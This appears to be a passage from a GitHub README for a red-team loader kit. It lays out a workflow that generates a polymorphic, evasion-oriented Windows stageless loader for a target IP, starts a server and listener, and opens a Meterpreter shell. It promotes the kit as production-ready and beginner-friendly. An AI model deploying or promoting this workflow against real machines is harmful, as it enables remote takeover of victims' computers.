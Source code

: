 **For Everyone:**
- `README.md` - Full documentation with:
  - Features
  - Installation
  - Usage
  - How it works
  - Troubleshooting
  - Advanced usage

**Auto-Generated:**
- `USAGE.md` - Created by setup.sh with your specific config

---

## Workflow After Setup

### Every Red Team Operation:

**1. Generate for target:**
```bash
./setup.sh    # Enter target IP/Port
```

**2. Deploy:**
```bash
# Terminal 1
./start_server.sh

# Terminal 2
./start_listener.sh

# Windows target
Run stageless_loader.exe
```

**3. Get shell:**
```bash
sessions -l
sessions -i 1
meterpreter >
```

---

## What Makes This Special

- **Fully Automated** - One command setup
- **No Manual Steps** - Script does everything
- **Polymorphic** - New keys per build
- **Well Documented** - 3 markdown guides
- **Production Ready** - Tested and working
- **Git Ready** - .gitignore configured
- **Beginner Friendly** - QUICKSTART guide
- **Advanced Features** - README covers everything

---